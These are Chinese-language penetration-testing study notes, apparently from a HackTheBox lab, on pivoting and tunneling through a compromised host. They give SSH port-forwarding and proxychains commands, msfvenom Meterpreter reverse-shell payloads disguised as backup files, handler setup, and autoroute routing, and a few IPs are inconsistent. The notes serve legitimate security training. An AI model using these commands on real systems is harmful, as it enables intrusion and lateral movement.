 # Pivoting &隧道和端口转发

## 一、介绍

### 1. 简介

![](https://academy.hackthebox.com/storage/modules/158/PivotingandTunnelingVisualized.gif)

在红队参与、渗透测试或 Active Directory 评估期间，我们经常会发现自己可能已经泄露了所需的凭据、ssh 密钥、哈希或访问令牌以移动到另一台主机，但可能有 不能从我们的攻击主机直接访问其他主机。 在这种情况下，我们可能需要使用我们已经妥协的枢轴主机来找到通往下一个目标的方法。 首次登陆主机时要做的最重要的事情之一是检查我们的权限级别、网络连接和潜在的 VPN 或其他远程访问软件。 如果一台主机有多个网络适配器，我们很可能会使用它来移动到不同的网段。 Pivoting 本质上是通过受感染的主机移动到其他网络以在不同网段上找到更多目标的想法。

Pivoting 的主要用途是打破分段（物理和虚拟）以访问隔离网络。另一方面，隧道是 Pivoting 的一个子集。隧道将网络流量封装到另一个协议中并通过它路由流量。

## 二、Choosing The Dig Site & Starting Our Tunnels

### 1. 使用 SSH 和 SOCKS 隧道的动态端口转发

> 端口转发是一种允许我们将通信请求从一个端口重定向到另一个端口的技术。端口转发使用 TCP 作为主要通信层，为转发的端口提供交互式通信。但是，可以使用SSH甚至 SOCKS（非应用层）等不同的应用层协议来封装转发的流量。这可以有效绕过防火墙并使用受感染主机上的现有服务转向其他网络

#### 1. SSH 本地端口转发

![](https://academy.hackthebox.com/storage/modules/158/11.png)

1.  执行本地端口转发

    ```shell
    # 攻击机执行， 作用是告诉 SSH 客户端请求 SSH 服务器将我们通过端口 1234 发送的所有数据转发到 Ubuntu 服务器上的 localhost:3306
    ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
    # 使用 Netstat 确认端口转发
    netstat -antp | grep 1234
    # 使用 Nmap 确认端口转发
    nmap -v -sV -p1234 localhost
    ```
2.  设置枢纽： `经过发现 Ubuntu 服务器有多个网卡： 10.129.202.64/172.16.5.129`

    > 现在我们需要知道在 172.16.5.0/23 范围上的主机，所以我们需要通过 Ubuntu 服务器转发我们的数据包，因此我们可以在本地启动一个 SOCKS 侦听器来完成次操作，然后配置 SSH 以在连接到目标主机后通过 SSH 将流量转发到 172.16.5.0/23

    ![](https://academy.hackthebox.com/storage/modules/158/22.png)

    ```shell
    # 攻击主机： 启用 SSH 动态端口转发，
    ssh -D 9050 ubuntu@10.129.202.64

    # 配置 proxychains
    tail -4 /etc/proxychains.conf
    	socks4 	127.0.0.1 9050

    # 使用 proxychains， 配合 nmap 的使用
    proxychains nmap -v -sn 172.16.5.1-200
    ```

### 2. 使用 SSH 进行远程/反向端口转发

> SSH 可以侦听我们本地主机并将远程主机的服务转发到我们的端口以及动态端口转发，我们也可以通过枢轴主机将数据报发送到远程网络，但有时我们可能也希望将本地服务转发到远程端口

![](https://academy.hackthebox.com/storage/modules/158/33.png)

```shell
# 使用 msfvenom 为 Windows A 创建 Windows 负载，并传送到枢轴主机
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

# 开启 MSF 监听
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000

# 在枢轴主机启动方法将 backupscript.exe 传送到 Windows A  主机,并执行
# 在攻击主机执行
ssh -R 172.15.5.19:8080:0.0.0.0:8000 ubuntu@10.129.15.50 -vN
```

最后结果实现图:

![](https://academy.hackthebox.com/storage/modules/158/44.png)

### 3. Meterpreter 隧道和端口转发

> 现在让我们考虑这样一个场景，我们在 Ubuntu 服务器（枢轴主机）上有我们的 Meterpreter shell 访问权限，我们想通过枢轴主机执行枚举扫描，但我们想利用 Meterpreter 会话给我们带来的便利 . 在这种情况下，我们仍然可以在不依赖 SSH 端口转发的情况下使用 Meterpreter 会话创建一个数据透视表。 我们可以使用以下命令为 Ubuntu 服务器创建一个 Meterpreter shell，它将在我们的攻击主机上的端口 8080 上返回一个 shell。

```shell
# 为 Ubuntu 主机创建有效负载，并传输到 Ubuntu 服务器上执行
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

# 配置有效负载
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp

# 建立 SHELL 会话后
# 使用 MSF 执行 ping 扫描
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
# Linux 的 Ping 扫描
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
# 使用 CMD 的扫描
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
# 使用 Powershell 的 ping 扫描
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}


# 配置 MSF 的 SOCKS 代理， 并配置 proxychains 配置文件
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a

# 最后，我们需要告诉我们的 socks_proxy 模块通过我们的 Meterpreter 会话路由所有流量。 我们可以使用 Metasploit 的 post/multi/manage/autoroute 模块为 172.16.5.0 子网添加路由，然后路由我们所有的代理链流量。
# 第一种： 使用 AUtoRoute 创建路线
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
# 第二种： 通过从 Meterpreter 会话运行 autoroute 来添加带有 autoroute 的路由
meterpreter > run autoroute -s 172.16.5.0/23

# 列出活动路由
meterpreter > run autoroute -p
```
